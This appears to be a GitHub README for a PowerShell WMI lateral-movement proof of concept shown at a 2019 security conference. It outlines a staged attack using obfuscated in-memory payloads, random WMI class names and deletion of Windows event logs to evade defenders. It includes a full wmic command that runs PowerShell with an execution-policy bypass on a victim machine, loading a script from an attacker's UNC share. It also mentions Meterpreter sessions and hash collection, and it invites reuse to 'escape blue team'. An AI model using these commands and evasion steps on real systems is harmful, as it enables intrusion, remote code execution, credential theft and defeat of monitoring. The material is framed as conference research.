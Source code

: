 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the possibilities an attacker might use to bypass detection mechanisms using many techniques in real-life condition.
It implement random class name derivation generation mechanism, payload obfuscation and EventViewer logs removal via WMI un-subscription.
Aditionaly, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.

## Details

   **Stage 1** (executed on attacker's side):
        The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

   [*] Notes:
        UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

        Note that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.
        Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    **Stage 2** (executed on target):
         In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).

         Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
         Stage 1 execution is not removed from logs for demo purpose, it should be modified for a total discretion ;).
	 
   [*] Notes:
        C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

    **stage 3** (executed on target):
        Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!